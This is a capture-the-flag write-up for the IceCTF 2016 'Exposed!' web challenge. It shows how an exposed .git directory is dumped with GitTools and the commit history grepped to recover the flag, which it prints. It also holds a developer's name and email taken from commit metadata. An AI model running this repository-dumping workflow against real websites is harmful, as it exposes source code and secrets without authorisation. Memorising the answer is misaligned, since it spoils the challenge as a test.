 ```yaml
---
layout: post
title: "IceCTF - 60 - Exposed! - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/08/25
thumbnail: /images/security-265130_640.jpg
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : IceCTF 2016
- **Website** : [https://icec.tf/](https://icec.tf/)
- **Type** : Online
- **Format** : Jeopardy
- **CTF Time** : [link](https://ctftime.org/event/319)

### Description

John is pretty happy with himself, he just made his first [website](http://exposed.vuln.icec.tf/)! He used all the hip and cool systems, like NginX, PHP and Git! Everyone is so happy for him, but can you get him to give you the flag?

## Solution

1. Description tell us we're looking for a web hosted git repository.
2. Let's try `http://exposed.vuln.icec.tf/.git/`.
3. Oh I forgot to say! We are lazy and this tool is amazing: [GitTools](https://github.com/internetwache/GitTools).
4. Dump the git repo : `./gitdumper.sh http://exposed.vuln.icec.tf/.git/ repo`.
5. Let's see what we get in there:
```
ls -A1 repo/.git/
COMMIT_EDITMSG
HEAD
config
description
index
info
logs
objects
packed-refs
refs
```
6. Let's see `COMMIT_EDITMSG`:
```
cat .git/COMMIT_EDITMSG
add robots.txt

# Please enter the commit message for your changes. Lines starting
# with '#' will be ignored, and an empty message aborts the commit.
#
# Author:    James Sigurðarson <jamiees2@gmail.com>
# Date:      Wed Aug 10 21:47:49 2016 +0000
#
# On branch master
# Changes to be committed:
#	new file:   robots.txt
#
# Untracked files:
#	rewrite-history.sh
#
```
7. Interesting there is a `robots.txt`, we should have look to it sooner: [http://exposed.vuln.icec.tf/robots.txt](http://exposed.vuln.icec.tf/robots.txt)
```
User-Agent: *
Disallow: /.git
Disallow: /flag.php
```
8. Oh yeah a `flag.php` file! Let's go to [http://exposed.vuln.icec.tf/flag.php](http://exposed.vuln.icec.tf/flag.php): there is nothing anymore here.
9. But maybe we can found an older version of `flag.php` with git!
10. Want to dig into git HEAD and all? Nah! There still is [GitTools](https://github.com/internetwache/GitTools).
11. Let's extract all now: `./extractor.sh repo/ repodump/`.
12. There is a lot of stuff in here:
```
ls -RA repodump
repodump:
0-60756b184c2d6b8f0247c152d8549562bc14d2d9   14-b536a10b5453686bd1dfcc50da3cb156c321fb5f  2-adf0ebdff8a972f3f6158304323feba4aa1fd482   25-631503ff237e145c7bade484c44c05a223b51155  4-cda8cc0acc8a09153351e43c40f4abeb7a823a03
1-6034c348380c9709715e6af60d04f684867d7234   15-e9f1db96f8b67eced8183d2d523e4ea76c008b83  20-32b31838b757a00f2e296ac198ca7d9cb930e644  26-90c2cd27cabb8ec7f55941ecee004558a070ccde  5-68162dcb661493c295f3913b1c1da2b198adfdd8
10-fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8  16-ec95d11bb37f00fb8e17f6bdbb800124b79e3c32  21-5ea13398f975b53ff30b7ea162b2ec6897a48c68  27-541e08f75514d1caec2a62fe3a1af308da6f35d8  6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef
11-4183a0cd7143899e4a5d34f01ce58317fd68921e  17-590a15d32d9a494be5830f61c5c180ddef86e43e  22-ebe74d8641b4d8b90c33d1deb69070476b0ef402  28-4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4  7-f521418118a088ef00fef0c3e199d30d6c7e96a5
12-175e312b3d3aeab77ada20ed93d1c9a3f2caf429  18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36  23-97dcb30a5862aa43984b8beee84c9477a7315856  29-bf55633224c5c76f49d42621ace07aa705ebae6e  8-584ae8349fe51e2cb25e11347003c11e92f88c74
13-1746e11be489319bd8900318874b68304eb05288  19-1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6  24-971c67fd8ed67c3986844f627917c19c151d00bf  3-d70b2e576c0f35e83d70027434050e06f729662b   9-672c8f636b6db9c79412db177dcca75cde27c82b

repodump/0-60756b184c2d6b8f0247c152d8549562bc14d2d9:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/1-6034c348380c9709715e6af60d04f684867d7234:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/10-fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8:
commit-meta.txt  index.php

repodump/11-4183a0cd7143899e4a5d34f01ce58317fd68921e:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/12-175e312b3d3aeab77ada20ed93d1c9a3f2caf429:
commit-meta.txt  index.php

repodump/13-1746e11be489319bd8900318874b68304eb05288:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/14-b536a10b5453686bd1dfcc50da3cb156c321fb5f:
.gitignore  commit-meta.txt  index.php

repodump/15-e9f1db96f8b67eced8183d2d523e4ea76c008b83:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/16-ec95d11bb37f00fb8e17f6bdbb800124b79e3c32:
.gitignore  commit-meta.txt  index.php

repodump/17-590a15d32d9a494be5830f61c5c180ddef86e43e:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36:
.gitignore  commit-meta.txt  index.php

repodump/19-1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6:
.gitignore  commit-meta.txt  index.php

repodump/2-adf0ebdff8a972f3f6158304323feba4aa1fd482:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/20-32b31838b757a00f2e296ac198ca7d9cb930e644:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/21-5ea13398f975b53ff30b7ea162b2ec6897a48c68:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/22-ebe74d8641b4d8b90c33d1deb69070476b0ef402:
.gitignore  commit-meta.txt  index.php

repodump/23-97dcb30a5862aa43984b8beee84c9477a7315856:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/24-971c67fd8ed67c3986844f627917c19c151d00bf:
.gitignore  commit-meta.txt  index.php

repodump/25-631503ff237e145c7bade484c44c05a223b51155:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/26-90c2cd27cabb8ec7f55941ecee004558a070ccde:
.gitignore  commit-meta.txt  index.php

repodump/27-541e08f75514d1caec2a62fe3a1af308da6f35d8:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/28-4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4:
.gitignore  commit-meta.txt  index.php

repodump/29-bf55633224c5c76f49d42621ace07aa705ebae6e:
.gitignore  commit-meta.txt  index.php

repodump/3-d70b2e576c0f35e83d70027434050e06f729662b:
.gitignore  commit-meta.txt  index.php

repodump/4-cda8cc0acc8a09153351e43c40f4abeb7a823a03:
.gitignore  commit-meta.txt  index.php

repodump/5-68162dcb661493c295f3913b1c1da2b198adfdd8:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef:
.gitignore  commit-meta.txt  index.php

repodump/7-f521418118a088ef00fef0c3e199d30d6c7e96a5:
.gitignore  commit-meta.txt  index.php

repodump/8-584ae8349fe51e2cb25e11347003c11e92f88c74:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/9-672c8f636b6db9c79412db177dcca75cde27c82b:
.gitignore  commit-meta.txt  index.php
```
13. Still to lazy to dig with git? Ok let's use `grep`:
```
grep -r -i icectf{ repodump/
repodump/20-32b31838b757a00f2e296ac198ca7d9cb930e644/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/7-f521418118a088ef00fef0c3e199d30d6c7e96a5/index.php:            font-size: 2em; /* IceCTF{secure_y0ur */
repodump/8-584ae8349fe51e2cb25e11347003c11e92f88c74/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/0-60756b184c2d6b8f0247c152d8549562bc14d2d9/flag.php:                    echo 'IceCTF{not_this_flag}';
repodump/6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef/index.php:                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
repodump/18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36/index.php:                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
repodump/27-541e08f75514d1caec2a62fe3a1af308da6f35d8/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/23-97dcb30a5862aa43984b8beee84c9477a7315856/flag.php:                    echo 'IceCTF{not_this_flag}';
```
14. Tada!
